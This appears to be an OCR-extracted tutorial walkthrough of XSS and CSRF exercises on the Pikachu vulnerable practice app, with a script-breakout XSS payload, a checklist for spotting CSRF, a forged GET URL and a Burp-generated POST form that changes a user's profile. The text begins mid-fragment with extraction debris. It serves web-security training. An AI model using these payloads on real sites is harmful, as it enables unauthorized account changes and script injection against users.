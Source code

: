      }
</script>
exploit

First enter some strings &<s>"11<>11'123<123>, view the source code of the front end



For JS code, we need to construct a closure to construct payload abc'</script><script>alert(1)</script> according to the displayed code



CSRF
How to Confirm the Existence of a CSRF Vulnerability

Mark the additions, deletions and modifications of the target website, and observe its logic to determine whether the request can be forged

For example, when modifying the administrator account, there is no need to verify the old password, which makes the request easy to be forged;

For example, the modification of sensitive information does not use secure token verification, which makes the request easy to be forged;

Confirm the validity period of the certificate (this problem will increase the probability of CSRF being exploited)

Although the browser is exited or closed, the local cookies are still valid, or the session has not expired in time, which makes CSRF attacks easier

CSRF (get)
First log in, modify personal information, and capture packets on Brup Suite, modify the captured URL (with yourself as the attacker), and then send it to the attack target (with yourself as the attacked)



exploit

With a slight modification, test

http://<server IP!!!>/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=futa&phonenum=110&add=123&email=lili%40pikachu.com1&submit=submit



CSRF(POST)
Similarly, log in, modify personal information, and capture packets on Brup Suite. For POST type, the request can no longer borrow user rights by modifying the URL, so you need to make a form yourself, and then return to the submission page to complete the modification.

exploit

Generate poc form directly from burp



<html>
   
   <body>
   <script>history.pushState('', '', '/')</script>
     <form action="http://<IP address>/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
       <input type="hidden" name="sex" value="futa1" />
       <input type="hidden" name="phonenum" value="1110" />
       <input type="hidden" name="add" value="1213" />
       <input type="hidden" name="email" value="lil1i&#64;pikachu&#46;com1" />
       <input type="hidden" name="submit" value="submit" />
       <input type="submit" value="Submit request" />
     </form>
   </body>
</html>
